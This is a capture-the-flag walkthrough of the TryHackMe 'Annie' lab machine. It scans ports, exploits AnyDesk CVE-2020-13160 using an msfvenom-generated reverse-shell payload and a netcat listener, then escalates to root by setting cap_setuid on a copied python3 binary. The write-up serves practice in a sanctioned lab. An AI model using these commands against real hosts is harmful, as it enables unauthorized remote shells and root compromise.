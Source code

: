 ## Annie CTF - [room](https://tryhackme.com/room/annie)

First we will start the machine, and grab the ip:
  - 10.10.76.15

`sudo nmap -v -sV -sC -oN nmap.log 10.10.76.15 -p- | grep open `

**Output**:
```shell
Discovered open port 22/tcp on 10.10.76.15
Discovered open port 33797/tcp on 10.10.76.15
Discovered open port 7070/tcp on 10.10.76.15
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  realserver?
33797/tcp open  unknown
```
`sudo nmap -v -sV -sC -oN nmap.txt 10.10.76.15 -p 22,7070`

**Output**:
```
PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
```

Making some research about anydesk client we know that anydesk use port range 50001-50003
so scanning that ports we know that port 50001 is open, and searching for anydesk CVE/Vulns we found

### CVE-2020-13160 - [Link](https://www.exploit-db.com/exploits/49613)

Now changing the ip in `ip = $ip`

![screenshot](https://github.com/SnowyYT07/TryhackmeCTFs/Annie/img/screenshot.png)

and changing that shellcode with
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=*thm ip* LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

we just need to set our listener and run the py script
`nc -lvnp 4444`

IN ANOTHER SHELL:

`python2 49613.py`


### RCE TIME

Now we have a user perm shell doing
cat user.txt we get

THM{[REDECTED]}

now u have to explore for privesc
with
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`

we can find binary with SUID perm
lets use the /sbin/setcap so..

`cp /usr/bin/python3 /home/annie/python3`
`setcap cap_setuid+ep /home/annie/python3`
`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

now we got root and:

`cat /root/root.txt`
and we get 
`THM{[REDECTED]}`
